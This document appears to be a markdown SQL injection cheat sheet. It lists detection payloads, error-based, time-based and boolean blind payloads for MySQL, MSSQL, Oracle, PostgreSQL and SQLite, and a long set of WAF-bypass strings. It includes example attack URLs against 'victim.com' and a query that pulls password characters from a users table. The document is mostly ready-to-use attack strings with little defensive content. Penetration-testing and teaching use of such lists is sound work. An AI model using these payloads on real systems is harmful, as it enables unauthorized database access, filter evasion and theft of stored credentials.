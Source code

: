 SQL Injection (SQLi) is a critical web vulnerability where an attacker manipulates SQL queries by injecting malicious input into an application's database query. This can lead to unauthorized data access, data leakage, or even complete database compromise.

## Where to test:

* GET parameters
* POST body
* Headers (e.g., User-Agent, Referer, X-Forwarded-For)
* Cookies
* Hidden fields
* JSON/XML in API requests

  
**Quick Detection Payloads:**
```
' → does error show?
"
' or 1=1--
' and sleep(5)--
' and (select 1 from dual where 1=1)-- (Oracle)
```

# How to Identify SQLi Types:

### Error-Based SQL Injection

Test Payloads:
```
'         
"        
')         
" OR 1=1--  
' ORDER BY 100--  
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(version(), FLOOR(RAND()*2)) x FROM information_schema.tables GROUP BY x) a)-- 
```

You see SQL error messages like:

* You have an error in your SQL syntax
* Warning: mysql_fetch_assoc()
* Unclosed quotation mark after the character string
* ORA-00933: SQL command not properly ended

IF Blocked:
Try Below Techniques:
```
%27  (URL encoded ')
%22  (URL encoded ")
/**/ (inline comment to bypass filters)
/*!SELECT*/  (MySQL comment bypass)
```
## Time-Based Blind SQL Injection

### MySQL
 ```
' AND SLEEP(5)--  
" AND SLEEP(5)--  
1 AND SLEEP(5)--  
' OR IF(1=1, SLEEP(5), 0)--  
' AND (SELECT * FROM users LIMIT 1) AND SLEEP(5)--

 ```
### MSSQL (Microsoft SQL Server)
 ```
' WAITFOR DELAY '0:0:5'--  
" WAITFOR DELAY '0:0:5'--  
1; WAITFOR DELAY '0:0:5'--  
'; IF (1=1) WAITFOR DELAY '0:0:5'--  
'; SELECT CASE WHEN (1=1) THEN WAITFOR DELAY '0:0:5' ELSE NULL END--  

 ```
### Oracle
```
 ' AND 1=1 AND dbms_pipe.receive_message('a',5)--  
' OR 1=1 AND dbms_pipe.receive_message('a',5)--  
' OR dbms_lock.sleep(5) FROM dual--  
' AND (SELECT CASE WHEN 1=1 THEN dbms_lock.sleep(5) ELSE null END FROM dual)--  
```
### PostgreSQL
```
'; SELECT pg_sleep(5)--  
1 AND pg_sleep(5)--  
' OR pg_sleep(5)--  
' OR (SELECT CASE WHEN 1=1 THEN pg_sleep(5) ELSE pg_sleep(0) END)--  
' OR 1=(SELECT 1 FROM pg_sleep(5))--
```
### SQLite
```
' AND randomblob(1000000000)--  
' OR (SELECT load_extension('non_existing'))--  # causes crash or delay
' AND (SELECT COUNT(*) FROM sqlite_master, sqlite_master, sqlite_master)--  
```

# Boolean-Based Blind SQL Injection

Test Payloads:
```
' AND 1=1--          → should behave normally (TRUE)
' AND 1=2--          → should behave differently (FALSE)

" AND 1=1--         
" AND 1=2--         

' OR '1'='1'--       → TRUE
' OR '1'='2'--       → FALSE

1 AND 1=1           
1 AND 1=2           
```

 If blocked:
**Try encoding:**
``
%27 AND 1=1--  
%27 AND 1=2--  
``
**Use case-insensitive logic:**
``
' oR 1=1--  
``
**Try comment tricks:**
``
' AND/**/1=1--  
``



Bypassing WAF: Blind SQL Injection Using logical requests AND/OR • The following requests allow one to conduct a successful attack for many WAFs

``` 
/?id=1+OR+0x50=0x50 (HEX)
/?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74 (ASCII-Based-Boolean-Check)

```
# WAF Bypassing Strings

```
/‘XOR(if(now()=sysdate(),sleep(8),0))XOR’111/
/page/‘XOR(if(now()=sysdate(),sleep(8),0))XOR’111/test.test
` /!%55NiOn/ /!%53eLEct/
%55nion(%53elect 1,2,3)– -
+union+distinct+select+
+union+distinctROW+select+
///!12345UNION SELECT///
concat(0x223e,@@version)
concat(0x273e27,version(),0x3c212d2d)
concat(0x223e3c62723e,version(),0x3c696d67207372633d22)
concat(0x223e,@@version,0x3c696d67207372633d22)
concat(0x223e,0x3c62723e3c62723e3c62723e,@@version,0x3c696d67207372633d22,0x3c62​723e)
concat(0x223e3c62723e,@@version,0x3a,”BlackRose”,0x3c696d67207372633d22)
concat(‘’,@@version,’’)
///!50000UNION SELECT///
//UNION///!50000SELECT///
/!50000UniON SeLeCt/
union /!50000%53elect/
+#uNiOn+#sEleCt
+#1q%0AuNiOn all#qa%0A#%0AsEleCt
/!%55NiOn/ /!%53eLEct/
/!u%6eion/ /!se%6cect/
+un//ion+se//lect
uni%0bon+se%0blect
%2f%2funion%2f*%2fselect
union%23foo%2Fbar%0D%0Aselect%23foo%0D%0A
REVERSE(noinu)+REVERSE(tceles)
/–/union/–/select/–/
union (/!/*/ SeleCT */ 1,2,3)
/!union/+/!select/
union+/!select/
//union//select//
//uNIon//sEleCt//
///*!union*////!select///
/*!uNIOn*/ /*!SelECt*/
+union+distinct+select+
+union+distinctROW+select+
+UnIOn%0d%0aSeleCt%0d%0a
UNION/*&test=1*/SELECT/*&pwn=2*/
un?+un//ion+se//lect+
+UNunionION+SEselectLECT+
+uni%0bon+se%0blect+
%252f%252a*/union%252f%252a /select%252f%252a*/
/%2A%2A/union/%2A%2A/select/%2A%2A/
%2f%2funion%2f%2fselect%2f%2f
union%23foo%2Fbar%0D%0Aselect%23foo%0D%0A
/!UnIoN*/SeLecT+`
```
## Bypass with Comments
SQL comments allow us to bypass a lot of filtering and WAFs.

`
Code :
 http://victim.com/news.php?id=1+un/**/ion+se/**/lect+1,2,3--
`
## Case Changing
Some WAFs filter only lowercase SQL keyword.
Regex Filter: /union\sselect/g
`
http://victim.com/news.php?id=1+UnIoN/**/SeLecT/**/1,2,3--
`

> **Don't Blindly Paste the Payloads, First Fingerprint the application and understand then use the payloads accordingly if any WAF OR Firewall there try Different Test cases discussed above to  Bypass the the WAF**

---


References:

https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://owasp.org/www-community/attacks/SQL_Injection
https://portswigger.net/support/sql-injection-bypassing-common-filters
https://code.google.com/archive/p/teenage-mutant-ninja-turtles/wikis/BasicObfuscation.wiki
https://johnermac.github.io/notes/ewptx/sqlievasion/
https://cheatsheetseries.owasp.org/cheatsheets/Query_Parameterization_Cheat_Sheet.html
https://www.owasp.org/index.php/Testing_for_NoSQL_injection
